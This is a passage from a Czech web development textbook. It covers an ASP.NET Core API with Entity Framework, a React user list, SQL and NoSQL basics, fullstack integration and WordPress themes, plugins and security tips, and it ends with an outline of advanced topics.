            new User { Name = "Test User", Email = "test@api.cz", Phone = "555-000-555" }  
        );  
        context.SaveChanges();  
    }  
}  
app.Run();
```
- **Vytvoření API Controlleru**
- Vytvoříme složku `Controllers` a v ní soubor `UsersController.cs`. Tento Controller **implementuje** náš endpoint `/api/users`.
**`soubor: Controllers/UsersController.cs`**
```c#
using Microsoft.AspNetCore.Mvc;
using Microsoft.EntityFrameworkCore;
using DashboardApi.Data;
using DashboardApi.Models;

namespace DashboardApi.Controllers
{
    [ApiController]
    [Route("api/[controller]")] // Definuje URL /api/users
    public class UsersController : ControllerBase
    {
        // 1. DI: Automatické vstříknutí AppDbContextu
        private readonly AppDbContext _context;
        public UsersController(AppDbContext context)
        {
            _context = context;
        }
        // GET: api/users
        [HttpGet]
        public async Task<ActionResult<IEnumerable<User>>> GetUsers()
        {
            // Vrací všechny uživatele z DB, jako asynchronní operaci
            return await _context.Users.ToListAsync();
        }
    }
}
```
- **Musíme** nechat Entity Framework Core vytvořit databázový soubor a tabulky z **našeho** modelu.
```bash
# Spustit z kořenové složky projektu (DashboardApi)
# Nainstalujeme globální nástroj pro EF (pokud ho ještě nemáme)
dotnet tool install --global dotnet-ef
# 1. Vytvoříme první migraci (snapshot aktuálního stavu modelu)
dotnet ef migrations add InitialCreate
# 2. Aplikujeme migraci na databázi (vytvoří soubor dashboard.db a tabulku Users)
dotnet ef database update
```
- **Spuštění Backendu**
- Zatímco **jsme** v adresáři `DashboardApi`, **spustíme** server:
```bash
dotnet run 
```
- Server se **spustí** (obvykle na `https://localhost:5079` a `http://localhost:5079`).
- **Úprava React Frontendu**
- Přejdeme do složky **našeho** React projektu (`react-dashboard`) a upravíme soubor `Users.jsx`.
**`soubor: src/pages/Users.jsx`**
```jsx
import { useState, useEffect } from 'react';
// Srdce projektu. Používá `useState` pro ukládání dat a filtru, a `useEffect` pro načtení dat při startu.
function Users() {
    // Definujeme všechny stavy, které komponenta potřebuje
    const [users, setUsers] = useState([]); // Pole pro data z API
    const [loading, setLoading] = useState(true); // Indikátor načítání
    const [error, setError] = useState(null); // Pro uložení případné chyby
    const [filter, setFilter] = useState(''); // Pro bonusový úkol (filtrování)

    // Tento useEffect se spustí jen jednou, když se komponenta vykreslí (díky [])
    useEffect(() => {
        const fetchUsers = async () => {
            try {
                const response = await fetch('http://localhost:5079/api/users');
                if (!response.ok) {
                    throw new Error('Chyba při načítání dat');
                }
                const data = await response.json();
                setUsers(data);
            } catch (err) {
                setError(err.message);
            } finally {
                setLoading(false);
            }
        };

        fetchUsers();
    }, []); // Prázdné pole závislostí = spustit jen jednou

    // Bonus: Logika filtrování
    // Filtrujeme seznam 'users' na základě textu ve 'filter' stavu
    const filteredUsers = users.filter(user =>
        user.name.toLowerCase().includes(filter.toLowerCase())
    );

    // Podmíněné vykreslování
    if (loading) {
        return <p>Načítám uživatele...</p>;
    }
    if (error) {
        return <p>Nastala chyba: {error}</p>;
    }

    return (
        <div>
            <h1>Seznam uživatelů</h1>
            
            {/* Bonus: Filtrovací input */}
            <input
                type="text"
                className="filter-input"
                placeholder="Filtrovat uživatele podle jména..."
                value={filter}
                onChange={(e) => setFilter(e.target.value)}
            />
            
            {/* Seznam uživatelů vykreslený pomocí .map() */}
            <div className="user-list">
                {filteredUsers.map(user => (
                    <article key={user.id} className="user-card">
                        <h3>{user.name}</h3>
                        <p>{user.email}</p>
                        <p>{user.phone}</p>
                    </article>
                ))}
            </div>
        </div>
    );
}

export default Users;
```
- **Spuštění Reactu**
- Otevřeme **nové** okno terminálu, přejdeme do složky `react-dashboard` a **spustíme** frontend:
```bash
npm run dev 
```
- Ukázka:
- 
---
### 6.5 Databáze (SQL i NoSQL)
- Databáze je organizovaný systém pro ukládání, správu a získávání dat. Většina moderních aplikací stojí na datech – uživatelích, produktech, objednávkách.
- Existují dvě hlavní rodiny databází:
	1. **Relační (SQL):** Data jsou v tabulkách s pevným schématem. (Jako Excel, ale mnohem mocnější).
	2. **Nerelační (NoSQL):** Data jsou uložena flexibilně, často jako dokumenty (JSON).
---
#### 6.5.1 SQL – principy
- **SQL (Structured Query Language)** je standardizovaný jazyk pro komunikaci s relačními databázemi. Relační databáze (RDBMS) ukládají data do **tabulek**, které jsou navzájem propojené (**relace**).
- **Základní pojmy:**
	- **Tabulka (Table):** Kolekce dat o jednom tématu (např. `Users`, `Orders`).
	- **Řádek (Row / Record):** Jeden konkrétní záznam (např. uživatel "Martin").
	- **Sloupec (Column / Field):** Atribut záznamu (např. `Email`, `Age`).
	- **Primary Key (PK):** Unikátní identifikátor řádku (nejčastěji `ID`). Každá tabulka by ho měla mít.
	- **Foreign Key (FK):** Odkaz na `Primary Key` v jiné tabulce. Tím se vytváří vztah (např. Objednávka má sloupec `UserId`, který ukazuje na Uživatele).
- **Základní SQL příkazy (CRUD):**
	- **SELECT (Čtení):**
    ```sql
    SELECT name, email FROM users WHERE age > 18;
    ```
	- **INSERT (Vytvoření):**
    ```sql
    INSERT INTO users (name, email) VALUES ('Martin', 'martin@example.com');
    ```
	- **UPDATE (Aktualizace):**
    ```sql
    UPDATE users SET email = 'novy@email.cz' WHERE id = 1;
    ```
	- **DELETE (Mazání):**
    ```sql
    DELETE FROM users WHERE id = 1;
    ```
---
#### 6.5.2 SQLite a PostgreSQL
- Ačkoliv SQL je jazyk, potřebujeme software (databázový stroj), který ho vykonává. Zde jsou dva nejpoužívanější zástupci:
	- **1. SQLite**
		- **Co to je:** Databáze v **jednom souboru**. Server neběží jako samostatný proces, ale je "vkompilovaný" přímo do vaší aplikace (jako knihovna).
		- **Použití:** Ideální pro vývoj (náš C# mini-projekt), mobilní aplikace, IoT, menší weby.
		- **Výhody:** Žádná instalace, nulová konfigurace.
		- **Nevýhody:** Nezvládá obrovský nápor tisíců uživatelů najednou (zápisy se zamykají).
	- **2. PostgreSQL (Postgres)**
		- **Co to je:** Nejvyspělejší open-source databázový server na světě.
		- **Použití:** Produkční standard pro většinu moderních startupů i korporací.
		- **Výhody:** Obrovský výkon, spolehlivost, pokročilé funkce (umí pracovat i s JSONem uvnitř SQL tabulek!).
		- **Nevýhody:** Musíte ho nainstalovat a spravovat (nebo použít cloudovou službu).
>[!Note] 
>- **MySQL / MariaDB** jsou další populární volby (často u PHP/WordPress), principy jsou velmi podobné PostgreSQL.

---
#### 6.5.3 NoSQL – MongoDB
- NoSQL databáze vznikly jako odpověď na potřebu škálovatelnosti a flexibility. Neukládají data do tabulek, ale nejčastěji do **dokumentů**.
- **MongoDB** je nejznámější zástupce.
	- **Dokument:** Místo řádku máme objekt, který vypadá jako JSON (technicky BSON).
    ```json
    {
      "_id": "507f1f77bcf86cd799439011",
      "name": "Martin",
      "skills": ["HTML", "CSS", "JS"], // Můžeme mít pole uvnitř záznamu!
      "address": { "city": "Praha" }     // Můžeme mít vnořený objekt!
    }
    ```
	- **Kolekce (Collection):** Místo tabulky máme kolekci dokumentů.
	- **Schema-less:** V jedné kolekci může mít každý dokument jiná pole. Nemusíme předem definovat sloupce.
- **Kdy zvolit NoSQL?**
	- Když se struktura dat často mění.
	- Když pracujeme s obrovským množstvím nestrukturovaných dat (logy, senzorová data).
	- Když potřebujeme extrémně rychlý zápis.
---
#### 6.5.4 Vztahy a indexy
- Ať už použijeme SQL nebo NoSQL, data spolu souvisí.
- **Typy vztahů:**
	1. **1:1 (One-to-One):** Jeden uživatel má jeden profil. (Zřídkavé, často se sloučí do jedné tabulky).
	2. **1:N (One-to-Many):** Jeden uživatel má mnoho objednávek. (Nejčastější). V SQL se řeší tak, že v tabulce `Orders` je sloupec `user_id`.
	3. **M:N (Many-to-Many):** Jeden student má mnoho předmětů a jeden předmět má mnoho studentů. V SQL se řeší **vazební tabulkou** (např. `Student_Subjects`), která obsahuje jen páry ID.
- **Indexy (Optimalizace výkonu):** Představte si telefonní seznam. Hledat "Novák" je rychlé, protože je seřazený podle abecedy (je indexovaný podle příjmení). Hledat někoho podle telefonního čísla by znamenalo projít celý seznam řádek po řádku.
	- **Index** je speciální datová struktura, kterou databáze udržuje, aby zrychlila vyhledávání v konkrétním sloupci.
	- **Pravidlo:** Pokud v aplikaci často filtrujete podle nějakého sloupce (`WHERE email = ...`), **vytvořte** na něm index.
	- **Cena:** Indexy zrychlují čtení (SELECT), ale mírně zpomalují zápis (INSERT/UPDATE), protože databáze musí aktualizovat i index.
---
#### 6.5.5 ORM (Prisma/Mongoose)
- Psát surové SQL dotazy (`SELECT * FROM...`) přímo v kódu aplikace (Node.js/C#) je pracné, náchylné k chybám a těžko se to udržuje.
- Proto **používáme** **ORM (Object-Relational Mapping)** nebo **ODM (Object-Document Mapping)**. Jsou to knihovny, které nám umožňují pracovat s databází pomocí jazyka naší aplikace (objektů a metod).
- **Již jsme viděli:**
	- **Entity Framework Core (C#):** ORM pro .NET.
- **V JavaScriptu/Node.js používáme:**
	1. **Prisma (pro SQL):** Moderní, silně typované ORM.
	    - Místo SQL píšeme:
        ``` javascript
        const user = await prisma.user.findUnique({
            where: { email: 'martin@example.com' }
        });
        ```
	2. **Mongoose (pro MongoDB):** ODM pro Mongo. Definujeme "Schéma" (aby data měla nějaký řád) a pracujeme s modely.
	    - Příklad:
        ```javascript
        const user = await User.findOne({ email: 'martin@example.com' });
        ```
- Použití ORM nám drasticky zrychluje vývoj a chrání nás před bezpečnostními chybami (SQL Injection), protože knihovna se postará o "vyčištění" dat za nás.
---
### 6.6 Fullstack integrace
- Doposud **jsme** budovali frontend (React) a backend (API) jako dvě oddělené věci. Fullstack vývoj je o tom, jak tyto dva světy spojit do jednoho funkčního celku.
---
#### 6.6.1 Frontend ↔ Backend komunikace
- Komunikace mezi klientem a serverem není jen o posílání dat. Je to o **kontraktu** (dohodě) mezi těmito dvěma stranami.
	1. **Struktura Dat (JSON):** Backend a frontend se musí shodnout na tom, jak data vypadají.
	    - Pokud backend pošle `{ "userName": "Martin" }`, ale frontend čeká `{ "user_name": "Martin" }`, aplikace spadne.
	    - **Řešení:** Používání TypeScriptu (sdílené typy) nebo nástrojů jako Swagger/OpenAPI (který **jsme** viděli v ASP.NET), které generují klientský kód automaticky.
	2. **CORS (Cross-Origin Resource Sharing):**
	    - Toto je bezpečnostní mechanismus prohlížeče. Prohlížeč nedovolí webu na `http://localhost:5173` (React) mluvit se serverem na `http://localhost:5000` (API), pokud to server explicitně nepovolí.
	    - **Musíme** vždy na backendu nastavit tzv. "Allow-Origin" hlavičky (jak **jsme** dělali v `Program.cs`).
	3. **Autentizace (JWT v hlavičkách):**
	    - Frontend si musí pamatovat token (např. v `localStorage`) a posílat ho s _každým_ požadavkem, který vyžaduje přihlášení.
	    - `Authorization: Bearer <token>`
---
#### 6.6.2 Error handling (Zpracování chyb)
- Co se stane, když server spadne nebo uživatel zadá špatné heslo? Aplikace nesmí "umřít" s bílou obrazovkou.
	- **HTTP Status Kódy:** Backend musí komunikovat stav pomocí standardních kódů, ne jen textem.
	    - `2xx` (Success): Vše OK.
	    - `4xx` (Client Error): Chyba uživatele (400 Bad Request, 401 Unauthorized, 404 Not Found).
	    - `5xx` (Server Error): Chyba serveru (500 Internal Server Error).
	- **Frontendová reakce:**
	    - React by měl chyby odchytávat (`try...catch` v `async` funkcích).
	    - Měl by uživateli zobrazit srozumitelnou zprávu ("Omlouváme se, server neodpovídá"), ne technický výpis chyby ("NullReferenceException").
---
#### 6.6.3 Deployment fullstack app
- Jak dostat aplikaci z **našeho** počítače k uživatelům? Existují dvě hlavní strategie:
- **Strategie A: Oddělený Deployment (Moderní standard)** Frontend a Backend běží na různých serverech.
	- **Frontend (React):** Sestavíme ho (`npm run build`) do statických souborů (HTML, CSS, JS). Ty nahrajeme na CDN službu (Vercel, Netlify, AWS S3). Je to levné a extrémně rychlé.
	- **Backend (API):** Běží na serveru (VPS, Azure App Service, Heroku, Docker kontejner).
	- Frontend se pak dotazuje na URL backendu (např. `api.mojeapp.cz`).
- **Strategie B: Monolit (Tradiční)** Backend "servíruje" i frontend.
	- Sestavené soubory Reactu (`dist/`) se nahrají do veřejné složky backendu (např. `wwwroot` v ASP.NET nebo `public` v Node.js).
	- Když uživatel přijde na hlavní stránku, backend mu pošle `index.html`.
	- Výhoda: Vše je na jednom místě. Nevýhoda: Větší zátěž serveru.
---
#### 6.6.4 Mini-projekt: Fullstack aplikace
- Tento mini-projekt je spíše myšlenkovým cvičením a shrnutím, protože **Vy** jste de facto fullstack aplikaci vytvořili v předchozích kapitolách propojením Reactu a C#.
- **Cíl:** Demonstrovat ošetření chyb v našem React Dashboardu.
- **Kroky:**
	1. **Vypněte** Váš C# backend server (simulace výpadku).
	2. **Otevřete** React aplikaci. Co se stane? Pravděpodobně uvidíte v konzoli červené chyby a na stránce možná nic, nebo "načítám...".
	3. **Upravte** `Users.jsx` v Reactu, aby hezky zobrazil chybu:
	**`soubor: src/pages/Users.jsx`**
	```jsx
// ...
if (error) {
    return (
        <div style={{ color: 'red', padding: '20px', border: '1px solid red' }}>
            <h2>⚠️ Chyba připojení</h2>
            <p>Nepodařilo se načíst data ze serveru. Je backend spuštěný?</p>
            <p>Technický detail: {error}</p>
        </div>
    );
}
// ...
	```
	4. **Zkuste** znovu načíst stránku. Nyní máte robustnější fullstack aplikaci, která komunikuje s uživatelem i v případě problémů.
---
## 7 WordPress
- **WordPress (WP)** je nejpopulárnější **CMS (Content Management System)** na světě. Pohání více než **43 %** všech webových stránek na internetu.
- Jeho síla spočívá v demokratizaci publikování. Umožňuje lidem bez technických znalostí spravovat obsah, zatímco vývojářům nabízí obrovskou flexibilitu pro úpravy.
---
### 7.1 Co je WordPress a kdy se vyplatí ho použít
- WordPress začínal jako platforma pro blogy, ale vyvinul se v univerzální nástroj. Je napsaný v **PHP** a jako databázi používá **MySQL/MariaDB**.
- **Kdy se vyplatí:**
    - **Blogy a magazíny:** Pro toto byl stvořen. Správa článků, kategorií a komentářů je v něm nativní.
    - **Firemní prezentace:** Weby typu "O nás, Služby, Kontakt" se v něm staví extrémně rychle.
    - **E-shopy:** Díky pluginu **WooCommerce** lze WP proměnit v plnohodnotný obchod.
    - **Když klient chce spravovat obsah:** Admin rozhraní je intuitivní a klienti ho často už znají.
- **Kdy se NEvyplatí:**
    - **Komplexní webové aplikace (SaaS):** Pokud stavíte druhý Facebook, Trello nebo bankovní systém, WP bude brzdou. Zde je lepší React/Vue + Node.js/ASP.NET.
    - **Extrémní nároky na výkon:** WP je náročnější na zdroje než statické stránky nebo optimalizovaný kód na míru.
---
### 7.2 Instalace (lokální i hosting)
- Abychom mohli s WP pracovat, **musíme** ho někam nainstalovat.
---
#### 7.2.1 Lokální vývoj (LocalWP)
- Pro vývoj na vlastním počítači **doporučujeme** nástroj **Local** (dříve Local by Flywheel).
    - Je zdarma a eliminuje nutnost konfigurovat Apache, PHP a MySQL ručně.
    - Jedním kliknutím vytvoříte izolovanou instalaci WordPressu na vašem PC.
---
#### 7.2.2 Hosting (Produkce)
- Na reálném serveru se instalace obvykle provádí jedním z těchto způsobů:
    1. **One-Click Install:** Většina hostingů nabízí tlačítko "Nainstalovat WordPress".
    2. **Manuální instalace:**
        - Stáhnete ZIP z `wordpress.org`.
        - Nahrajete soubory přes FTP na server.
        - Vytvoříte databázi v administraci hostingu.
        - Otevřete web v prohlížeči a projdete "pětiminutovou instalací", kde zadáte údaje k databázi.
---
### 7.3 Šablony (themes) – úprava vzhledu
- WordPress striktně odděluje **obsah** (v databázi) a **vzhled** (šablona/theme).
- **Theme (Šablona):** Je sada souborů (PHP, CSS, JS, obrázky), která určuje, jak web vypadá.
- **Moderní přístupy k tvorbě vzhledu:**
    1. **Hotové šablony:** Stáhnete (zdarma z repozitáře nebo placené z ThemeForest) a v "Customizeru" upravíte barvy a logo. (Např. Astra, OceanWP).
    2. **Page Builders:** Nástroje jako **Elementor**, **Divi** nebo **Bricks**. Umožňují "naklikat" design metodou Drag & Drop bez psaní kódu.
    3. **Gutenberg (Block Editor):** Nativní editor WordPressu. Dnes už umožňuje tzv. **FSE (Full Site Editing)**, kde editujete celý web včetně hlavičky a patičky pomocí bloků.
---
### 7.4 Pluginy – rozšíření funkcí bez programování
- Heslo WordPressu zní: _"There's a plugin for that."_
- Pluginy jsou balíčky kódu, které se "zaháknou" do jádra WordPressu a přidají novou funkcionalitu.
- **Esenciální pluginy:**
    - **SEO:** _Yoast SEO_ nebo _RankMath_ (optimalizace pro vyhledávače).
    - **Bezpečnost:** _Wordfence_ (firewall, skenování malwaru).
    - **Zálohování:** _UpdraftPlus_.
    - **Rychlost:** _WP Rocket_ nebo _Autoptimize_ (caching).
    - **Formuláře:** _Contact Form 7_ nebo _Gravity Forms_.
> [!Warning] **Pozor:** Každý plugin navíc zpomaluje web a zvyšuje bezpečnostní riziko. Instalujte jen to, co opravdu potřebujete.

---
### 7.5 Tvorba vlastního pluginu (úvodní příklad)
- Někdy potřebujeme malou úpravu a nechceme instalovat velký plugin. Vytvořit vlastní je překvapivě snadné.
- Plugin je jen PHP soubor se specifickou hlavičkou (komentářem).
- **Příklad:** Vytvoříme plugin, který přidá tzv. **Shortcode**. Když do textu napíšeme `[aktualni_rok]`, web to nahradí letopočtem.
- **Kroky:**
1. Jděte do složky `wp-content/plugins`.
2. Vytvořte složku `muj-prvni-plugin`.
3. V ní vytvořte soubor `muj-prvni-plugin.php`.
```php
<?php
/**
 * Plugin Name: Můj První Plugin
 * Description: Přidává shortcode pro aktuální rok.
 * Version: 1.0
 * Author: Martin Novan
 */

// Ochrana: Nepovolit přímý přístup k souboru
if (!defined('ABSPATH')) {
    exit;
}

// Funkce, která vrátí aktuální rok
function mpp_ziskej_rok() {
    return date('Y');
}

// Registrace shortcodu [aktualni_rok]
// Když WP narazí na [aktualni_rok], spustí funkci mpp_ziskej_rok
add_shortcode('aktualni_rok', 'mpp_ziskej_rok');
```
4. Jděte do administrace -> Pluginy -> **Aktivovat**.
5. Nyní v jakémkoliv příspěvku použijte `[aktualni_rok]`.
---
### 7.6 Tvorba vlastního jednoduchého motivu (theme)
- Tvorba vlastní šablony nám dává ultimátní kontrolu nad HTML a CSS.
- Každá šablona potřebuje minimálně dva soubory ve složce `wp-content/themes/moje-sablona`:
    1. `style.css`: Hlavička s informacemi o šabloně a CSS styly.
    2. `index.php`: Hlavní soubor, který vypisuje obsah.
**`style.css`**
```css
/*
Theme Name: Moje Minimalistická Šablona
Author: Martin Novan
Version: 1.0
*/

body {
    font-family: sans-serif;
    max-width: 800px;
    margin: 0 auto;
    padding: 20px;
}
```
**`index.php`**
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title><?php bloginfo('name'); ?></title>
    <link rel="stylesheet" href="<?php echo get_stylesheet_uri(); ?>">
</head>
<body>
    <header>
        <h1><a href="<?php echo home_url(); ?>"><?php bloginfo('name'); ?></a></h1>
        <p><?php bloginfo('description'); ?></p>
    </header>

    <main>
        <?php 
        // "The Loop" - Srdce WordPressu. 
        // Prochází všechny příspěvky v databázi a vypisuje je.
        if (have_posts()) : 
            while (have_posts()) : the_post(); 
        ?>
            <article>
                <h2><?php the_title(); ?></h2>
                <div><?php the_content(); ?></div>
            </article>
            <hr>
        <?php 
            endwhile; 
        else : 
            echo '<p>Žádné příspěvky nenalezeny.</p>';
        endif; 
        ?>
    </main>
    
    <?php wp_footer(); ?> 
</body>
</html>
```
---
### 7.7 Bezpečnost WordPressu
- Protože je WP tak rozšířený, je častým terčem automatizovaných útoků.
- **Zlatá pravidla bezpečnosti:**
    1. **Aktualizace:** Vždy mějte aktualizovaný WP, šablonu i pluginy.
    2. **Silná hesla:** Nikdy nepoužívejte "admin" jako uživatelské jméno.
    3. **Změna URL přihlášení:** Útočníci zkouší `/wp-admin`. Pomocí pluginu (např. WPS Hide Login) to změňte na `/tajny-vstup`.
    4. **2FA (Dvoufaktor):** Zapněte ověřování přes telefon/aplikaci.
    5. **Zálohování:** Pokud vás hacknou, záloha je jediná jistota.
---
### 7.8 Performance – optimalizace, caching
- WordPress generuje stránky dynamicky (při každé návštěvě se dotazuje databáze a skládá PHP). To může být pomalé.
- **Caching (Mezipaměť):** Caching plugin vytvoří z dynamické stránky statický HTML soubor a ten servíruje návštěvníkům. Zátěž serveru klesne o 90 %.
- **Obrázky:** Velké obrázky jsou zabijákem rychlosti. Používejte kompresi a moderní formáty jako **WebP**.
---
### 7.9 Mini-projekt: vytvoření funkčního webu (blog/portfolio)
- **Cíl:** Vytvořit kompletní osobní web bez psaní kódu, pouze pomocí nástrojů WordPressu.
- **Požadavky:**
    1. Nainstalujte WordPress (např. přes LocalWP).
    2. Nainstalujte moderní šablonu (např. **Astra** nebo **Hello Elementor**).
    3. Nainstalujte plugin **Elementor** (free verze) nebo použijte blokový editor.
    4. Vytvořte stránky: "Domů", "O mně", "Blog", "Kontakt".
    5. Nastavte "Domů" jako statickou úvodní stránku (v Nastavení -> Zobrazování).
    6. Vytvořte navigační menu.
---
- Příklad:
	1. **Stáhněte a nainstalujte** xampp.
	2. Stáhněte a vložte složku 'wordpress' do složky 'htdocs' v kořenové složce xampp
	3. Spusťte servery
	4. odkažte se na 'localhost'
	5. vytvoříme databazový server pro wordpress
		1. Potřeba na linuxu spustit tyto příkazy
	```bash
	# Změna vlastníka na uživatele, pod kterým běží Apache (v XAMPP obvykle daemon)
	sudo chown -R daemon:daemon /opt/lampp/htdocs/wordpress
	# Nastavení práv pro zápis
	sudo chmod -R 755 /opt/lampp/htdocs/wordpress
	```
	1. odkažte se na 'localhost/wordpress'
	2. projdeme instalací wordpressu
	3. Nainstalujeme si šablonu a aktivujeme ji
	4. Nainstalujeme plugin a aktivujeme ho
	5. Vytvoříme stránky
---
## 8 Pokročilé webové technologie
### 8.1 API architektury
- Pokročilé způsoby komunikace mezi službami.
#### 8.1.1 GraphQL
- Alternativa k RESTu s flexibilními dotazy.
#### 8.1.2 gRPC
- Rychlá komunikace založená na binárním přenosu.
#### 8.1.3 WebSockets
- Reálný čas, chaty, online aplikace.
---
### 8.2 Pokročilá bezpečnost
- Komplexní pohled na ochranu aplikací.
#### 8.2.1 XSS
- Útok vložením škodlivého kódu.
#### 8.2.2 CSRF
- Útok využívající cizí relaci uživatele.
#### 8.2.3 SQL Injection
- Nechráněné dotazy do databáze.
#### 8.2.4 Bezpečné ukládání hesel
- Hashování, salting, best practices.
#### 8.2.5 CORS
- Mechanismus řízení přístupu u API.
---
### 8.3 Výkon frontendu a backendu
- Jak zrychlit aplikaci na všech úrovních.
#### 8.3.1 Lazy load a code splitting
- Oddálení načítání těžkých částí webu.
#### 8.3.2 CDN
- Distribuční síť pro rychlejší načítání.
#### 8.3.3 Caching strategií
- Jak ukládat data pro zrychlení.
#### 8.3.4 Lighthouse
- Nástroj pro měření kvality webu.
---
### 8.4 PWA – Progressive Web Apps
- Jak vytvořit aplikaci, která funguje jako mobilní app.
#### 8.4.1 Service Workers
- Script běžící na pozadí pro práci offline.
#### 8.4.2 Offline režim
- Cacheování a ukládání dat.
#### 8.4.3 Instalační manifest
- Jak umožnit instalaci webu jako aplikace.
---
### 8.5 Mobilní a desktopové webové technologie
- Jak ze znalostí webu tvořit nativní aplikace.
#### 8.5.1 React Native
- Tvorba mobilních aplikací pomocí JS.
#### 8.5.2 Electron
- Tvorba desktopových aplikací pomocí webu.
#### 8.5.3 WebView model
- Hybridní aplikace kombinující nativní funkcionalitu s webem.
---
## 9 DevOps – profesionální praxe
### 9.1 Docker
- Kontejnery pro oddělené a opakovatelné spuštění aplikací.
#### 9.1.1 Dockerfile
- Definice prostředí aplikace.
#### 9.1.2 Docker Compose
- Koordinace více kontejnerů.
#### 9.1.3 Container networking
- Jak kontejnery spolu komunikují.
---
### 9.2 CI/CD
- Automatizace buildů, testů a nasazení.
#### 9.2.1 GitHub Actions
- Automatické workflow nad GitHub repozitářem.
#### 9.2.2 Pipeline build + test + deploy
- Jaké kroky má mít profesionální pipeline.
#### 9.2.3 Automatické nasazení
- Uvolnění nové verze bez ruční práce.
---
### 9.3 Cloud a serverless
- Nasazení aplikací bez správy serveru.
#### 9.3.1 AWS / Azure – základy
- Cloudové služby dostupné pro web.
#### 9.3.2 Serverless funkce
- Výpočet bez nutnosti běžícího serveru.
####  9.3.3 CDN, edge computing
- Zrychlení aplikací přiblížením obsahu k uživateli.
---
## 10 Profesionální vývojář – jak pracuje tým
### 10.1 Code review a dokumentace
- Jak psát udržovatelný a srozumitelný kód.
#### 10.1.1 Jak psát dobré commity
- Best practices ve verzovacím systému.
#### 10.1.2 PR best practices
- Jak správně vytvořit pull request.
#### 10.1.3 UML a systémová dokumentace
- Grafické znázornění architektury systému.
---
### 10.2 Návrhové vzory pro web
- Osvědčené postupy řešení problémů.
#### 10.2.1 MVC, MVVM, MVU
- Architektonické přístupy ve webovém vývoji.
#### 10.2.2 Pub/Sub
- Komunikace mezi částmi systému pomocí událostí.
#### 10.2.3 Singleton
- Vzor pro sdílení jediné instance objektu.
#### 10.2.4 Service layer
- Oddělení logiky aplikace od infrastruktury.
---
## 11 Závěrečný projekt
### 11.1 Kompletní real-world aplikace
- Vytvoření kompletní webové aplikace používající všechny znalosti z učebnice.
- návrh databáze
- backend API
    
- frontend aplikace
    
- testování
    
- CI/CD
    
- Docker nasazení
---
## 12 Závěr
- Shrnutí celého materiálu a doporučení pro další rozvoj.